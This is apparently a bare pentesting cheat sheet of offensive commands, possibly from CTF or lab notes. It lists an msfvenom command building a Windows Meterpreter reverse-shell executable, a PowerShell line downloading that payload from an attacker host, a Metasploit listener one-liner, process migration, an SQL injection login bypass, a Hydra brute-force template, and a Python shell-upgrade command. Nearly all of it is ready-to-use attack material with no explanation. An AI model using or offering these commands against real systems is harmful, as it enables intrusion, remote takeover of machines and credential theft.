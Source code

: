 

sql map

---

hashes.com

cyberchef.io





msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.245.232 LPORT=6667 -f exe -o shell.exe

powershell -c "Invoke-WebRequest -Uri 'http://10.10.245.232:8000/shell.exe' -OutFile 'c:\temp\shell.exe'"

msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.248.10; set lport 6666;set payload windows/meterpreter/reverse_tcp; exploit"

migrate -N explorer.exe

' or 1=1 -- -

hydra -l <username> -P <password_list> <target_ip> http-post-form "<url>:<post_data>:<failure_string>"

python -c “import pty; pty.spawn(‘/bin/bash’)”


enum4linux

https://github.com/ropnop/kerbrute/releases


https://www.alexandroslekkas.com/
